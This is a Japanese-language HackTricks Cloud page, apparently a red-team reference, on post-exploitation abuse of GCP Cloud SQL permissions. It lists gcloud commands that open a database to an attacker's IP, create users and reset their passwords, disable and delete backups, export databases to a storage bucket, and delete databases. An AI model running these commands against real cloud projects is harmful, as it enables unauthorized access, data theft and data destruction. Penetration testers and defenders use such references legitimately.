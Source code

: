 # GCP - Cloud SQLポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}

## Cloud SQL

Cloud SQLに関する詳細情報は次を確認してください:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

データベースに接続するには、データベースポートへのアクセス権限と**ユーザー名**と**パスワード**を知っていれば十分であり、IAMの要件はありません。したがって、データベースにパブリックIPアドレスがあると仮定し、許可されたネットワークを更新して**自分のIPアドレスがアクセスできるように許可**するのが簡単な方法です。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**を使用して、データベースのバックアップを**中断**することも可能です。

これらが要件であるため、**`cloudsql.instances.connect`**および**`cloudsql.instances.login`**の権限が具体的に何であるかは完全にはわかりません。わかる方はPRを送ってください！

### `cloudsql.users.list`

データベースの**すべてのユーザーのリスト**を取得します。
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

この権限は、データベース内に新しいユーザーを作成することを許可します。
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

この権限を使用すると、データベース内のユーザーを**更新**できます。たとえば、パスワードを変更できます：
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

バックアップには**古い機密情報**が含まれている可能性があるため、それらをチェックすることが興味深いです。\
データベース内で**バックアップを復元**します：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
### より慎重な方法で行うためには、新しいSQLインスタンスを作成し、現在稼働しているデータベースではなくそこでデータを回復することが推奨されています。

### `cloudsql.backupRuns.delete`

この権限はバックアップを削除することを許可します。
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**データベースをエクスポート**して、それをそこからアクセスできるようにCloud Storageバケットに保存します：
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage バケットからデータベースをインポート**（上書き）:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

dbインスタンスからデータベースを削除します：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
